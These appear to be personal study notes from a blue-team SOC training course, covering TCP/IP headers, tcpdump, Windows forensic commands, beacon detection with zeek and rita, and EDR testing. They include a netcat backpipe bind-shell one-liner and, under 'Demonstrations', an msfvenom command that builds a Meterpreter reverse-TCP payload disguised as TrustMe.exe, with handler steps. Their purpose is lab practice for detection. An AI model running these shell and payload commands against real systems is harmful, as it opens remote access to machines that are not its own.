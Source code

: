 - Don't wait for an incident to try tools you have read about.
- How we are going to tell apart the True Positive from the False Positive?
	- Simple: Ask the user but in most mature organization, a change that can trigger alert has to go **Change Request** process first.
	- Context and correlation is key.

## Day 1

![[cards/blue-team/siem/image/SOC Core Skills.png]]
- **Identification** - used to identify chopped packets for re-assembling (Same IP ID).
	- 16 bit - there is 65,536 possible IP-ID values for chopped packets.
- **IP Flags** - 
	- D - Don't fragment this packet.
	- M - More fragment means more fragments are coming (if M does not exist it means it is the last).
	- X - (a troll) known as _evil bit_ hackers must flip the value to 1 that means this packet is malicious.

Right below (think about this as a layer) this is either a TCP Header or UDP Header:
![[SOC Core Skills-1.png]]
- **src and dst port** - we can think about them as rooms in a hotel where hotel is the  destination address and the **rooms are services in your computer** while we are the customers (src address).
- **sequence numbers** - are similar to pages in a book - you receive random pages not starting to page 1 but this is okay as you can easily reassemble it using the page numbers.
- **Acknowledgement Number** - the next sequence of number the sender is expecting to receive.
- **TCP Flags**
	- ACK - constantly acknowledging what has been sent and received by incrementing by 1 or number of bytes received to the sequence number.
	- RST - something went wrong reset start from scratch.
	- SYN - start with synchronization or communication.
	- FIN - that is it comms is over.
	- After communication has been succesfully established it is more ACK ACK ACK.

![[SOC Core Skills.png]]


```
tcpdump -AX -l lo
```

- Snips traffic on loopback interface.
- `-AX` shows the ASCII and the hexdump of packets.

![[SOC Core Skills-2.png]]

```bash
tcpdump -n -r file
```

- `-n` don't resolve hostname
- tshark is now much preferred - [[TShark]]
- TCP/IP model > OSI model - search for steven's four layer model
- For finding malware or any interesting conversation - use the statistics and conversation to find the top "talker" on your endpoint.
	- Then right click and apply as filter to see what they are talking about.
- Statistics - HTTP - request is a must see

 a great reference by professor messer on tcpdump https://danielmiessler.com/p/tcpdump/

An interesting malware:
`mknod backpipe p`

```
/bin/bash 0<backpipe | nc -l 2222 1>backpipe
```

Input from `netcat` is passed around backpipe and then outputted to `bash` and then the output of the command `bash` will be passed around netcat. Think about like when you shake a box with water, it goes from one side to another back and forth.

Think about similar to a reverse shell and a great **reverse engineering a must try at the bottom**:

https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md

## Day 2

###### Windows Forensics
- Start with network connections and then work backwards. WHY because there are fewer network connections than processes to cut through.
- Get your baseline.
- Check processes on a system that is not infected first.
- FOCUS on established and start researching the IPs.


- `net view \\127.0.0.1` - attackers likes to create a _beach head_ when they intially compromised a system, it is a technique (usually network shares) to allow attackers access files for lateral movement or data exfiltration.
	- Get the baseline - what share is normal what is not?
- `net session` - checks who is talking to our system.
- `net use` - what system our current device talking to.
- `netstat -anob` - shows network connections with associated PID and proces name.
	- `-a` display active TCP connections and shows TCP and UDP ports that the computer is listening.
	- `-n` display active TCP connections but no name resolutions.
	- `-o` display active TCP connections including PID.
	- `-b` display the executable involved in creating each connections or listening port.
	- `-f` resolves port and address.
- `tasklist /svc` - shows image name, pid and their services.
	- `svchost.exe` is a service that starts other services.
	- `/V` shows image, pid and `.dll` loaded.
	- `/m /fi "pid eq 4444"` 
	- `/m mtdll.dll`

![[SOC Core Skills-3.png]]

- `wmic process get name,parentprocessid,processid`

![[SOC Core Skills-4.png]]
#### Demonstrations
---
Creating a malware then pass it to Windows via curl:

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 -f exe -o /tmp/TrustMe.exe
```

1. `msfconsole -q`
2. `use exploit/multi/handler`
3. `set PAYLOAD windows/meterpreter/reverse_tcp`
4. `set LHOST 10.200.200.7`
5. `exploit`
6. Run the .exe on Windows.

`netstat -naob`:

![[SOC Core Skills-5.png]]

using `wmic` command:

![[SOC Core Skills-6.png]]

- https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md - reference
- deepbluecli - have a look


SOME AD attacks & defend - https://www.youtube.com/watch?v=rSgj-oMxG0g

WINDOWS FORENSICS - https://www.youtube.com/watch?v=7Z-Su-jkUnQ

## Day 3

- **Beacons** - some backdoors have a very strong “heartbeat”. This is where a backdoor will constantly reconnect to get commands from an attacker at a specific interval
- Server logs then check the IP address in tools such IP database but attackers can bounce off traffic to CDNs known as **domain fronting**.
- The use of tools/wisdom to get to the top of the pyramid - _data knowledge information pyramid_.
	- When looking for something it is a good idea to consult the _CIS benchmark_. A lot of times a.k.a the manual.
	- ![[SOC Core Skills-7.png]] hit it with nessus or NUCLI much preferred and watch the logs.
	- use vendor hardening guide, or any third paty source for securing the app.
	- IT'S TIME TO DIG DEEP!
	- builtwith website to know what company is builtwith. FULL RECON,
		- site: risebroadband.com 
		- remove `- www` to see somethind different. (Discovered ADFS tool - now we can use this to our advantage in interviews)
		- Then remove `adfs` look it up and say be **familiar** with adfs - familiar and how to secure them.
		- look for closed connections on memory analysis.
	- If you see file explorer.exe as the one who runs an image it means a user clicks it.
- zeek for network analysis.
	- Due to encoding, obsfucation - we should rely on **context**. and not on signature based this makes zeek good.
	- But what about intervals? attackers could connect or perform their malicious activities in small, medium, large intervals - then it would be tough unlike brute-forcing where in it's 0.5 ms to 1 second.
		- The key is put it in a **course of a day** then add up the amount:  

![[SOC Core Skills-8.png]]
- But what about normal services that does this such as Google or Microsoft?
	- rita allows us to write a whitelist and then we can look at the number of connections then compare it backwards: (zeek then feed it to rita).

![[SOC Core Skills-9.png]]
- There is no "False Positives" it's a tuning problem.
- Do research on UABA

![[SOC Core Skills-10.png]]

alexaj

## Day 4

- Properly Powershell and command line logging.
- Bluespawn is a great (non-production) EDR - it has monitor mode which means don't block it let me see it.
- Evaluate EDR with Atomic Red Team.
- In vulnerability management think about focusing on vulnerabilities found on multiple systems not focusing on vulnerabilities found on IP addresses and ranges (grouping) then address vulnerabilities on automated fashion.
- Pentest web apps regularly test them - nikto, Automatic Web Security Scanner (W3AF), and Zed Attack Proxy
